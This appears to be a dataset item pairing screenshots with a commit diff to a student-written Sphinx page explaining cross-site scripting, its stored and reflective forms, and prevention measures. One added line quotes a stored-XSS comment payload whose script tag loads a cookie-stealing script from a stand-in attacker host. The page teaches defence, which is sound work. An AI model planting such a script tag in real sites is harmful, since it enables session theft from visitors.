

Before and after one commit to pvcraven/2017_web_security, a Sphinx documentation site: the page built from source/xss/xss.rst, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Added outline, image, and fixed one added citation

```diff
--- a/source/xss/xss.rst
+++ b/source/xss/xss.rst
@@ -6,8 +6,9 @@
 
 
 Cross-site scripting is when an attacker inserts code into a legitimate website,
-and is considered one of the biggest website vunerabilities. Web sites are especially vunerable
-when they don't use validation or encoding on user generated data. [xss]_
+and is considered one of the biggest website vulnerabilities. Web sites are
+especially vulnerable  when they don't use validation or encoding on user generated
+data. [xss]_
 
 Cross-Site Scripting
 
@@ -16,24 +17,86 @@
 -----------------------------------------------------
 
 
-* XSS, or Cross-Site Scripting is inserting malious code into an actual website
+* XSS, or Cross-Site Scripting is inserting malicious code into an actual website
 to gather information from the users.
 
 * Most danger lies on the users of the sites, as the code targets their information
-and use rather than the website itself.
+and use rather than the website itself. [xss]_
+
+* Some examples of what dangerous XSS could do include:
+	1. Access session cookies, which can be used to impersonate the user
+	2. Keylogging, which tracks the users keystrokes to catch usernames and passwords
+	3. Phishing, or sending out fake and/or malicious emails
+	4. Installing malicious software or viruses on the user's computer
+	5. and Identity Theft [xss]_
+
+* There are two different types of XSS attacks, stored and reflective
+
+* Stored xss is "stored", or imbeded, on the website itself and steals data everytime
+the website is visited. [xss-prevention]_ It is also know as "persistant XSS",
+and can be the more dangerous of the two types. [xss-attacks]_
+
+* Reflective xss is stored in a link embedded in the website that the user has to
+click on to activate. [xss-attacks]_
 
 
-What Can Be Done to Prevend XSS through Web Security
+What Can Be Done to Prevent XSS through Web Security
 ----------------------------------------------------
 
+* Web Application Firewall(WAF) - most common protection [xss-attacks]_
+
+* Signiture based Filtering - "identifies and blocks malicious requests" [xss-attacks]_
+
+* Use escape characters -  escape any characters that could change the websites
+code [xss-prevention]_
+
+	* PHP Applications can use **htmlentities()** , a built in function for
+	escaping characters
+
+	* Also escape any HTML, attribute, JavaScript, JSON (with HTML), CSS, and URL
+	before entering any untrusted or unvalidated data [xss_cheat_sheet]_
+
+* Escape data output, not input - when displaying to user [xss-prevention]_
+
+	* "Security researcher Jouko Pynnönen of Klikki Oy realized MySQL column
+	truncation can defeat before-insert XSS prevention strategies" [xss-prevention]_
+
+* Avoid using straight HTML - use a markup language, such as Markdown or
+ReStructuredText
+
+* If HTML is needed, such as on blogging site, use a library such as HTML Purifier
+to help validate the HTML [xss-prevention]_
 
 
-What You Can Do To Spot XSS
+What You Can Do To Spot/Prevent XSS
 ---------------------------
 
+* Be careful of links that you click on in websites and through emails.
+
+* Make sure that websites that you are visiting are safe
+
+* Have a good Anti-Virus/ Web Security, such as McAfee AntiVirus Plus, Bitdefender
+AnitVirus Plus, or Kaspersky Anti-Virus
 
 Example of Cross-Site Scripting:
 -------------------------------
+
+.. figure:: sorted-XSS.png
+
+	Stored XSS [xss-attacks]_
+
+
+* Stored XSS Example: An attacker figures out that the comment section of a website can store
+HTML tags. They leave a comment that says:
+"Great price for a great item! Read my review here <script src="http://hackersite.com/authstealer.js"> </script>" [xss-attacks]_
+This is a stored in the website, and everytime someone visits the page, they have their
+session cookies stolen
+
+	* Harder for hackers to attempt, because they must find a highly trafficed site that
+	also has a security hole. [xss-prevention]_
+
+* Reflective XSS: Similar to above, but the user would have to click on the link
+to activate the code.
 
 
 Sources
@@ -45,6 +108,6 @@
 
 .. [xss-prevention] "`Everything You Need to Know About Preventing Cross-Site Scripting Vulnerabilities in PHP - Paragon Initiative Enterprises Blog <https://paragonie.com/blog/2015/06/preventing-xss-vulnerabilities-in-php-everything-you-need-know>`_." RSS. Paragon Initiative Enterprises , 16 June 2015. Web. 19 Feb. 2017.
 
-.. [] "`XSS (Cross Site Scripting) Prevention Cheat Sheet <https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet>`_." XSS (Cross Site Scripting) Prevention Cheat Sheet - OWASP. N.p., n.d. Web. 19 Feb. 2017.
+.. [xss_cheat_sheet] "`XSS (Cross Site Scripting) Prevention Cheat Sheet <https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet>`_." XSS (Cross Site Scripting) Prevention Cheat Sheet - OWASP. N.p., n.d. Web. 19 Feb. 2017.
 
 *Written by Kyann, Edited by Rasim and Cole.*
```
